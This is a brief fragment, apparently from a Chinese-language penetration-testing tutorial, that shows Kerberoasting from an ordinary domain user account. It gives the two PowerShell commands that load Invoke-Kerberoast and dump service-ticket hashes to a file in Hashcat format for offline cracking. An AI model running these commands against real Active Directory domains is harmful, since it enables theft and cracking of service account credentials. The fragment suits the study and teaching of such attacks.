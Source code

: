 [![](assets/1701606719-65cb2ef092b190e507acfd08ff1949ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162940-f5efa1ae-7e10-1.png)

#### Powershell-1

在域内一台主机上以普通用户权限执行：

```plain
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat > 1.txt
```
